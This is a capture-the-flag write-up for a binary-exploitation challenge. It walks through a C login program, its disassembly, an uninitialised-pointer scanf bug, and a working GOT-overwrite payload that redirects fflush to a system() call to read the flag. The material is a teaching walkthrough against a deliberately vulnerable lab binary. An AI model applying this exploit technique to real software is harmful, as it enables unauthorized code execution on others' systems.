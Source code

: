 Let's take a look at the source code.

```
#include <stdio.h>
#include <stdlib.h>

void login(){
	int passcode1;
	int passcode2;

	printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);

	// ha! mommy told me that 32bit is vulnerable to bruteforcing :)
	printf("enter passcode2 : ");
        scanf("%d", passcode2);

	printf("checking...\n");
	if(passcode1==338150 && passcode2==13371337){
                printf("Login OK!\n");
                system("/bin/cat flag");
        }
        else{
                printf("Login Failed!\n");
		exit(0);
        }
}

void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}

int main(){
	printf("Toddler's Secure Login System 1.0 beta.\n");

	welcome();
	login();

	// something after login...
	printf("Now I can safely trust you that you have credential :)\n");
	return 0;	
}
```

Looking at this code, it seems like the program is straight forward. It's a login system that asks for your name, then for two passcodes. It then compares the two passcodes against 338150, and 13371337, and passes if the passcodes match. Then shouldn't we be able to input those values into the program? Why are we even looking at this?

```
passcode@ubuntu:~$ ls
flag  passcode	passcode.c
passcode@ubuntu:~$ ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : guyinatuxedo
Welcome guyinatuxedo!
enter passcode1 : 338150
Segmentation fault
```

What just happened? Let's look at the scanf that apparently crashed the program.

```
	int passcode1;
	int passcode2;

  printf("enter passcode1 : ");
	scanf("%d", passcode1);
	fflush(stdin);
```

So there is a glaring problem. Scanf requires an address to write to. The program gives it an int, with a value of 0. We will have to change that 0, to an actual address value so the program doesn't crash. Let's look at the function that is called before it, welcome().

```
void welcome(){
	char name[100];
	printf("enter you name : ");
	scanf("%100s", name);
	printf("Welcome %s!\n", name);
}
```

As you can see, scanf has a char pointer (name) as the argument, so this implementation works. This scanf will take in 100 characters, then write them to name. Let's see where the input starts in the assembly code (you can do this using gdb, objdump, or whatever you feel like).

```
Dump of assembler code for function welcome:
   0x08048609 <+0>:	push   %ebp
   0x0804860a <+1>:	mov    %esp,%ebp
   0x0804860c <+3>:	sub    $0x88,%esp
   0x08048612 <+9>:	mov    %gs:0x14,%eax
   0x08048618 <+15>:	mov    %eax,-0xc(%ebp)
   0x0804861b <+18>:	xor    %eax,%eax
   0x0804861d <+20>:	mov    $0x80487cb,%eax
   0x08048622 <+25>:	mov    %eax,(%esp)
   0x08048625 <+28>:	call   0x8048420 <printf@plt>
   0x0804862a <+33>:	mov    $0x80487dd,%eax
=> 0x0804862f <+38>:	lea    -0x70(%ebp),%edx
   0x08048632 <+41>:	mov    %edx,0x4(%esp)
   0x08048636 <+45>:	mov    %eax,(%esp)
   0x08048639 <+48>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x0804863e <+53>:	mov    $0x80487e3,%eax
   0x08048643 <+58>:	lea    -0x70(%ebp),%edx
   0x08048646 <+61>:	mov    %edx,0x4(%esp)
   0x0804864a <+65>:	mov    %eax,(%esp)
   0x0804864d <+68>:	call   0x8048420 <printf@plt>
   0x08048652 <+73>:	mov    -0xc(%ebp),%eax
   0x08048655 <+76>:	xor    %gs:0x14,%eax
   0x0804865c <+83>:	je     0x8048663 <welcome+90>

```

As you can see at welcome+38, it uses the lea (load effective address) instruction to load the address of name into the ebp-0x70. We can tell that it is a paramter for the scanf, since it is right before scanf is called.
So because of this, scanf will start writing at ebp-0x70. Let's see where the passcode1 variable is stored in memory.

```
Dump of assembler code for function login:
   0x08048564 <+0>:	push   %ebp
   0x08048565 <+1>:	mov    %esp,%ebp
   0x08048567 <+3>:	sub    $0x28,%esp
   0x0804856a <+6>:	mov    $0x8048770,%eax
   0x0804856f <+11>:	mov    %eax,(%esp)
   0x08048572 <+14>:	call   0x8048420 <printf@plt>
   0x08048577 <+19>:	mov    $0x8048783,%eax
=> 0x0804857c <+24>:	mov    -0x10(%ebp),%edx
   0x0804857f <+27>:	mov    %edx,0x4(%esp)
   0x08048583 <+31>:	mov    %eax,(%esp)
   0x08048586 <+34>:	call   0x80484a0 <__isoc99_scanf@plt>
   0x0804858b <+39>:	mov    0x804a02c,%eax
   0x08048590 <+44>:	mov    %eax,(%esp)
   0x08048593 <+47>:	call   0x8048430 <fflush@plt>
```

So we can see at login+34, the first scanf is called. Because of that we know that the passcode1 variable has to be stored in memory before that.
If we look at login+24, we can see that a register is being moved into ebp-0x10. In my experience, ebp is usually the register to hold values such as the one we are looking for.
In addition to that, it is in the area that the paramter would need to be loaded. So because of this passcode1 is probably stored at
ebp-0x10. Now to calculate the difference between epb-0x70 and ebp-0x10.

```
0x70 - 0x10 = 96
```

So the difference between the two is 96 bytes, which since we can write 100 characters, we can reach that plus have just enough space left to write a 4 byte address so the program will actually run.
Now we are given an interesting position here. We control what the scanf function writes. We also control where it writes to. We could rewrite part of the program. This includes rewriting the address of a function, to the address of the system function, thus effictevly running the system call.

The first thing we will need is a function to overwrite. We could overwrite the fflush function, because it's immediately after the scanf and if it doesn't execute, it's not the end of the world.
To do this we will first need the address of the fflush function, so we can write to this. I'm going to do this using objdump.

```
passcode@ubuntu:~$ objdump -R passcode | grep fflush
0804a004 R_386_JUMP_SLOT   fflush@GLIBC_2.0
```

And there we have it, the address of the fflush function is 0x0804a004. Now we just need the address of the system function.

```
   0x080485c5 <+97>:	cmpl   $0x528e6,-0x10(%ebp)
   0x080485cc <+104>:	jne    0x80485f1 <login+141>
   0x080485ce <+106>:	cmpl   $0xcc07c9,-0xc(%ebp)
   0x080485d5 <+113>:	jne    0x80485f1 <login+141>
   0x080485d7 <+115>:	movl   $0x80487a5,(%esp)
   0x080485de <+122>:	call   0x8048450 <puts@plt>
=> 0x080485e3 <+127>:	movl   $0x80487af,(%esp)
   0x080485ea <+134>:	call   0x8048460 <system@plt>
   0x080485ef <+139>:	leave  
   0x080485f0 <+140>:	ret    
   0x080485f1 <+141>:	movl   $0x80487bd,(%esp)
   0x080485f8 <+148>:	call   0x8048450 <puts@plt>
   0x080485fd <+153>:	movl   $0x0,(%esp)
   0x08048604 <+160>:	call   0x8048480 <exit@plt>
```

Here we can see the system function called at 0x080485ea. However we can't just jump there, because we need to have it push the parameters to it, otherwise the system call will do nothing. We can see that two lines above it at
login+122 it calls puts, and they're probably aren't any arguments before that. That leaves the one line between the two calls at login+127 to push the parameters onto the stack. So if we jump to the address 0x080485e3, it will push the necissary paramters onto the stack, then it will execute the system function. So effectively we just replaced the fflush function with the system call later on that will give us the flag.

Now to contruct the payload. Since the scanf function has the "%d" flag, we will need to pass the value that we are using it to write (0x080485e3) as it's decimal equivalent, which is 134514147.

```
passcode@ubuntu:~$ python -c 'print "0"*96 + "\x04\xa0\x04\x08" + "134514147"' | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome 000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000�!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```
And just like that, we pwned the binary.

